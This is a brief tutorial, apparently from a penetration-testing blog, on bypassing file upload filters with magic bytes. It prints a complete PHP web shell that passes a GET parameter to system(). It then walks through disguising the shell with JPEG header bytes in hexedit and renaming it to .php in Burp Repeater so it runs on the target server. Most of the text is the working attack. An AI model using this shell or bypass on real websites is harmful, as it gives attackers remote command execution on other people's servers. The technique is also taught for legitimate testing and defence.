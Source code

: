 ## **Overview**

Magic Bytes are Basically strings that indicates a file type. You can check out a bunch of them [here](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=danielxblack.ghost.io).



## **Exploitation**


- create a file with `.php.jpg` as the extension 
- Input the following code into the file and save it

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- Since in this case we are uploading a `JPG` or `PNG` file, Files like this usually have one of the following magic numbers: `FFD8 DDE0`, `FFD8 FFDB` or `FFD8 FFE1`
- We can then change the first bytes and the last bytes using **hexedit** - `hexedit shell.php`
	- First bytes will be: `FFD8 FFDB`
	- Last bytes will be: `FFD9` (Always have to be)
	- Ctrl+S - To save

![](https://i.imgur.com/KsVAtWP.png)

- Open up burp suite and try to upload this file then intercept request
- Forward request to **Repeater** and rename to **anything.php** then click **Send**

 ![](https://i.imgur.com/J8fdr1b.png)

- Checking back on the website our file should have been uploaded

![](https://i.imgur.com/2Wx4lFa.png)
